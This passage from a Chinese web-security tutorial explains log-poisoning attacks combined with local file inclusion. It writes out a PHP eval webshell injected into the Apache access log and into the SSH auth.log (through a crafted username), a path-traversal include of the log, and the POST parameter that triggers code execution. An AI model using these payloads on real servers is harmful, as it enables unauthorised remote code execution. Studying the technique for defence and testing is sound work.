 中间件开启了访问日志记录功能，会访问日志写入到日志文件中。
假设访问URL：http://192.168.1.2/xxx/index.php
发现会在日志文件中有如下内容：

```csharp
[root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:31:20 +0800] "GET /xxx/index.php HTTP/1.1" 200 86....
```

中间件日志访问会记录访问者的IP地址、访问时间、访问路径、返回状态码等等。
利用中间件访问记录路径到日志文件中的功能，将恶意代码写入到日志文件当中去：
添加恶意代码：`http://www.abc.com/xxx/<?php @eval($_POST[123]);?>`
此时会提示404，但是不急
查看日志文件，发现已经将内容写入

```perl
[root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:35:23 +0800] "GET /xxx/%3C?php @eval($_POST[123]);?%3E HTTP/1.1" 404 826....
```

虽然已经写入到日志文件中去了，但是浏览器进行了URL编码，导致传入的代码不能正常使用
**可以通过burpsuite抓包的方式写入恶意代码，这样不会被浏览器进行URL编码**
查看日志文件，内容如下

```php-template
[root@aaa]#less /var/log/httpd/access_log
192.168.1.200 - - [09/Aug/2021:19:37:33 +0800] "GET /xxx/<?php @eval($_POST[123]);?> HTTP/1.1" 404 302....
```

恶意代码成功写入

### 文件包含日志文件

要执行文件包含，必须要知道日志文件的位置。
常见的中间件日志文件都有默认的存储路径，比如Apache的中间件日志文件存在/var/log/httpd/目录下，文件名叫access_log
输入测试语句`http://www.abc.com/xxx/file.php?file=../../../var/log/httpd/access_log`
之后在向网页传入POST参数：`123=phpinfo`
即可显示出phpinfo的内容

## SSH日志文件包含

SSH日志文件包含的利用条件是：

- SSH日志路径已知，并且具有可读权限

SSH日志文件的默认路径为`/var/log/auth.log`

下面介绍漏洞利用步骤

### 将恶意代码写入文件

SSH如果开启了日志记录的功能，那么会将ssh的连接日志记录到ssh日志文件当中
将连接的用户名设置成恶意代码，用命令连接服务器192.168.1.1的ssh服务
`ssh "<?php @eval($_POST[123]);?>"@192.168.1.1`
查看日志文件/var/log/auth.log，可以观察到恶意代码已经写入到日志文件

